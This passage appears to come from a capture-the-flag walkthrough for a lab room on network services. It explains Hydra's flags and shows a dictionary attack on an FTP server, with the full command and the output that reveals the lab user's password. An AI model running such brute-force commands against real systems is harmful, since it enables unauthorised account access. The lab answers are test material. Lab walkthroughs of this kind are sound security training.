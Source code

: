 So, from our enumeration stage, we know:

- There is an FTP server running on this machine
- We have a possible username

Using this information, let's try and bruteforce the password of the FTP Server.

**Hydra**

Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Hydra comes by default on both Parrot and Kali, however if you need it, you can find the GitHub here.

The syntax for the command we're going to use to find the passwords is this:
"`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp`"

Let's break it down:

| SECTION                 | FUNCTION                                                                             |
| ----------------------- | ------------------------------------------------------------------------------------ |
| hydra                   | Runs the hydra tool                                                                  |
| -t 4                    | Number of parallel connections per target                                            |
| -l [user]               | Points to the user who's account you're trying to compromise                         |
| -P [path to dictionary] | Points to the file containing the list of possible passwords                         |
| -vV                     | Sets verbose mode to very verbose, shows the login+pass combination for each attempt |
| [machine IP]            | The IP address of the target machine                                                 |
| ftp / protocol          | Sets the protocol                                                                    |

Let's crack some passwords!

1. What is the password for the user "mike"?

```
kali@kali:~/CTFs/tryhackme/Network Services$ hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt 10.10.153.14 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-25 22:13:09
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.153.14:21/
[21][ftp] host: 10.10.153.14   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-25 22:13:17
```

`password`

2. Bingo! Now, let's connect to the FTP server as this user using "ftp [IP]" and entering the credentials when prompted

